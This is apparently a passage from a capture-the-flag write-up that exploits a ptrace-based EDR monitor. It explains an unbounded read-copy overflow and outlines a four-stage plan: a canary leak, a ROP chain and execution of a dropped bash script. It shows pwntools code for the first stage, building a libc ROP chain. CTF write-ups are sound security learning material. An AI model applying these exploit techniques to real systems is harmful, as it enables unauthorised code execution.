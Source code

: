 This function inspects the data of read after it is complete. It then goes on to run the regex `EPT\\{[^}]+\\}` on it to make sure it does not contains the flag. This is where we find our next bug.

```c
 for ( i = 0LL; (unsigned __int64)SLODWORD(regs.rax) >> 3 >= i; ++i )
  {
    wait_status = ptrace(__ptrace_request::PTRACE_PEEKDATA, (unsigned int)target_pid, buffer_addr + 8 * i);
    *(_QWORD *)&read_data_buffer[8 * i] = wait_status;
  }
```

This for-loop does not really decompile properly and looks very cursed, but what it does is that it inspects the return value of read in the rax register. It then goes on to copy one and one byte into a 1024 buffer. There is no bound check so we get a clean buffer overflow.

## Exploitation
There is a lot of moving parts to this chall so to abstract it up a bit i divided the exploit up into 4 stages.

1. Do overflow in verify_file_name to leak the canary value into the syscall.log file
2. Read out the syscall.log file and write it to the console.
3. Write a bash script to disk so we can execve it from a ROP in ept_edr.
4. Do overflow in ept_edr with the previously leaked canary value and chmod our bash script and execute it.

The reason i opted to go for a bash script instead of just popping a shell is that we don't really have any way to i/o with the edr process.

#### Stage 1 - Making the leak
```py
def stage1():
    global io
    io = conn()
    io.recv()
    pmon = procdump(b"process_monitor")

    exe.address = get_base(pmon, b"/process_monitor")
    libc_addr = get_base(pmon, b"libc")
    libc.address = libc_addr
    info("Libc: " + hex(libc.address))
    info("exe: " + hex(exe.address))
    rop = ROP(libc)
    rop.read(0, exe.bss(), 300)
    rop.open(exe.bss(), 0)
    rop.call(exe.sym.main)

    payload = flat(
        cyclic(offset),
        rop.chain()
    )
    io.sendline(b"2")
    io.sendline(payload)
    io.sendline(b"flag" + b"A"*(252) + b"DEADBEEF")
    io.close()
```
